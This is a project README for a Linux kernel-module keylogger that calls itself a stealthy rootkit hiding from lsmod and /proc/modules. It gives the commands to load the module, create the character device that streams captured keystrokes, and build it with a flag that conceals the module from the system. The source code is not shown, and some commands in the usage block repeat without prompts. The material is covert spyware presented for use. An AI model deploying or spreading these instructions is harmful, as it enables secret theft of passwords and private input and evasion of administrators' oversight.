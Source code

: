 # Keylog

A stealthy Linux kernel-based keylogger that hides itself from `lsmod` and
`/proc/modules`.

## Usage
This rootkit is in the form of a loadable kernel module. It receives keyboard
events from the kernel and outputs to a character device. Install using
`insmod`:

```console
$ insmod keylog
$ dmesg | tail -n1
[  498.484687] keylog: Registered device major number 249
$ mknod chrdev0 c 249 0  # create a character device, 249 is the major no.
$ cat chrdev0
dmesg | tail -n1

mknod chrdev0 c 249 0

cat chrdev0
```

## Build
Make sure you have `linux-headers` installed.

```console
$ make
```

To hide the module from kernel, compile with `-DHIDE_MODULE`:

```console
$ KCPPFLAGS="-DHIDE_MODULE" make
```

## Development
A Vagrant box with essential tools/packages is provided. Simply run the
following commands to build the box:

```console
$ vagrant up
$ vagrant ssh
vagrant@stretch:~$ cd /vagrant
```
